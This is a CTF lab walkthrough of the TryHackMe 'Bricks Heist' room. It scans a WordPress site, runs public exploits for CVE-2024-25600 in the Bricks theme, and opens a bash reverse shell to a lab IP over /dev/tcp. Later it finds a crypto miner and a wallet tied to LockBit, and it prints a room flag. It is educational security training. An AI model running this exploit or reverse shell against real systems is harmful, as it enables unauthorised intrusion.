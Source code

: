 ```yaml
---
title: "TryHackMe - Bricks Heist"
date: 2025-02-21 22:00:00 +0000
author: scr4tcher
categories: [TryHackMe CTF]
tags: [wordpress, exploitation]

---
```


---

## Bricks Heist - TryHackMe Walkthrough

### 1. Initial Scanning

I started by scanning the target machine with Nmap:

```bash
nmap -v 10.10.145.97
```

### 2. Identifying the Web Application

Visiting the website, I immediately noticed it was running on WordPress. To gather more details, I attempted a scan with WPScan:

```bash
wpscan --url https://bricks.thm --disable-tls-checks
```

### 3. Finding Exploits

From the scan results, I found that the site was using the "Bricks" theme version 1.9.5. I searched for exploits and found:

- [CVE-2024-25600 Exploit](https://github.com/K3ysTr0K3R/CVE-2024-25600-EXPLOIT)
- [Exploit tool](https://github.com/Chocapikk/CVE-2024-25600)

### 4. Exploiting the Vulnerability

I ran the exploit according to the provided instructions. If you encounter issues installing the `alive-progress` package, use:

```bash
pip install alive-progress --break-system-packages
```

Then, I executed:

```bash
python3 bricks.py -u https://bricks.thm
```

### 5. Obtaining a Reverse Shell

To establish a reverse shell, I used Netcat:

```bash
nc -lvnp 4444
```

On the target machine:

```bash
bash -c 'exec bash -i &>/dev/tcp/10.8.21.77/4444 <&1'
```

Upon connection, I retrieved the first flag from:

```
650c844110baced87e1606453b93f22a.txt
```

**Flag:** `THM{fl46_650c844110baced87e1606453b93f22a}`

### 6. Privilege Escalation

I investigated running processes and found the system was running Ubuntu 20.04.6:

```bash
cat /etc/issue
```

Checking active services:

```bash
systemctl list-units --type=service --state=running
```

A suspicious service named `ubuntu.service` was running:

```bash
systemctl cat ubuntu.service
```

The service executed a process called `nm-inet-dialog` from `/lib/NetworkManager`. Upon inspecting the directory, I found a file `inet.conf` containing interesting information—Bitcoin miner logs and an encoded string:

```
5757314e65474e5962484a4f656d787457544e424e574648555446684d3070735930684b616c70555a7a566b52335276546b686b65575248647a525a57466f77546b64334d6b347a526d685a6255313459316873636b35366247315a4d304531595564476130355864486c6157454a3557544a564e453959556e4a685246497a5932355363303948526a4a6b52464a7a546d706b65466c525054303d
```

Decoding the string using CyberChef and ChatGPT revealed Bitcoin address:

```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qabc1qyk79fcp9had5kreprce89tkh4wrtl8avt4l67qa
```

I discovered that this could be a Bitcoin SegWit address used for BTC transactions. However, SegWit addresses are typically between 42-62 characters long, whereas the one I found was 86 characters long, suggesting it might be duplicated. After splitting it in half, I obtained the valid address:
```
bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa
```
Researching further, I found that this address was associated with LockBit transactions:

- [BlockChain](https://www.blockchain.com/explorer/addresses/btc/bc1qyk79fcp9hd5kreprce89tkh4wrtl8avt4l67qa)
### Conclusion

This room demonstrated various techniques, from reconnaissance and vulnerability exploitation to privilege escalation and cryptocurrency investigation. It was an interesting challenge that highlighted real-world attack vectors!

